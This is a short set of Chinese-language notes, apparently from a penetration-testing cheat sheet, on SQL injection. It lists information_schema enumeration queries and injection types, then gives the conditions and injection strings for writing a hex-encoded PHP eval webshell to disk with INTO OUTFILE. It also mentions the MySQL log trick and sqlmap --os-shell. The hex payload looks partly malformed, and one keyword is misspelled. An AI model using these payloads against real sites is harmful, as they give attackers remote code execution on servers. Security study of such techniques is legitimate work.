 ```sql
'SELECT table_name FROM information_schema.tables'
'SELECT column_name FROM information_schema.columns'
'SELECT table_name,column_name FROM information_schema.columns,'
```

------

### 注入类型

报错注入

布尔注入

时间盲注

宽字节注入

联合查询

堆查询注入

------

### 从SQL注入如何拿到webshell

条件：

1.知道网站绝对路径

2.gpc开启了吗？开启的话单引号被转义，语句不能正常执行

3.file权限，上传什么的。默认只有root，不一定要root，SQL用户拥有FILE权限就可以select into outfile

4.目录要有写权限，一般image之类的存放目录就可以

------

利用UNION SELECT ，UNION和SELECT into outfile 将一句话写入evil.php

利用分隔符写入 SQLMAP 的 --os-shell

```sql
?id=1 LIMIT 0,1 INTO OUTFILE 'E:/var/www/evil.php' lines termianted by 0x20273c3f70687020406576616c28245f504f5354b2767275d293b3f3e27 --

?id=1 INTO OUTFILE '物理路径' lines terminated by  （一句话hex编码）#
```

利用log写入	修改MYSQL的log文件获取webshell

------

wfuzz -> SQL Injection get login users & password -> 访问管理页面和执行代码

1.破解密码 -> 搜索引擎 || John-The-Ripper http://openwall.com/john/

2.上传webshell和执行系统指令

写一个webshell
